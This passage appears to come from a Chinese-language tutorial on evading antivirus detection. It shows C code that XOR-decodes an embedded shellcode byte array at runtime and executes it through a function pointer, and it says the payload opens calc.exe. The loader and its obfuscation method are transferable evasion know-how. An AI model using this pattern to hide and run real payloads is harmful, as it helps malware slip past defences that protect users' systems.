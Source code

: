 有程序的输出可知，shellcode的长度为194字节，\x意味着后面是16进制。所以shellcode就是一段194字节长的16进制数据。由于shellcode是16进制而不是字符串的缘故，用常规的加密思路去处理显得很困难。

在这里我使用异或的方法处理shellcode，**异或的特点是原数据经过两次异或后与原来相同**，本例中最终的buf经过函数指针执行是可以正常启动calc.exe的。<u>*将第一次异或后密文保存，使用时在代码中解密，就是变形免杀的初步思想。*</u>

![截图](f013275c415904681fc0a262ec58328e.png)

```c_cpp
#include <stdio.h>

// 主函数
void main() {
    // 定义Shellcode的字节数组
    unsigned char buf[] = "\xf6\xe2\x88\xa\xa\xa\x6a\x83\xef\x3b\xca\x6e\x81\x5a\x3a\x81\x58\x6\x81\x58\x1e\x81\x78\x22\x5\xbd\x40\x2c\x3b\xf5\xa6\x36\x6b\x76\x8\x26\x2a\xcb\xc5\x7\xb\xcd\xe8\xf8\x58\x5d\x81\x58\x1a\x81\x40\x36\x81\x46\x1b\x72\xe9\x42\xb\xdb\x5b\x81\x53\x2a\xb\xd9\x81\x43\x12\xe9\x30\x43\x81\x3e\x81\xb\xdc\x3b\xf5\xa6\xcb\xc5\x7\xb\xcd\x32\xea\x7f\xfc\x9\x77\xf2\x31\x77\x2e\x7f\xee\x52\x81\x52\x2e\xb\xd9\x6c\x81\x6\x41\x81\x52\x16\xb\xd9\x81\xe\x81\xb\xda\x83\x4e\x2e\x2e\x51\x51\x6b\x53\x50\x5b\xf5\xea\x55\x55\x50\x81\x18\xe1\x87\x57\x60\xb\x87\x8f\xb8\xa\xa\xa\x5a\x62\x3b\x81\x65\x8d\xf5\xdf\xb1\xfa\xbf\xa8\x5c\x62\xac\x9f\xb7\x97\xf5\xdf\x36\xc\x76\x0\x8a\xf1\xea\x7f\xf\xb1\x4d\x19\x78\x65\x60\xa\x59\xf5\xdf\x69\x6b\x66\x69\x24\x6f\x72\x6f\xa\xa";
    
    // 获取Shellcode的大小
    int shellcodesize = sizeof(buf);

    // 打印Shellcode的大小
    printf("%d\n", shellcodesize);

    // 遍历Shellcode的每一个字节
    for (int i = 0; i < shellcodesize; i++) {
        // 通过XOR操作进行解码，XOR的密钥为10
        buf[i] ^= 10;
    }

    // 执行解码后的Shellcode
    ((void(*)(void)) &buf)();
}

```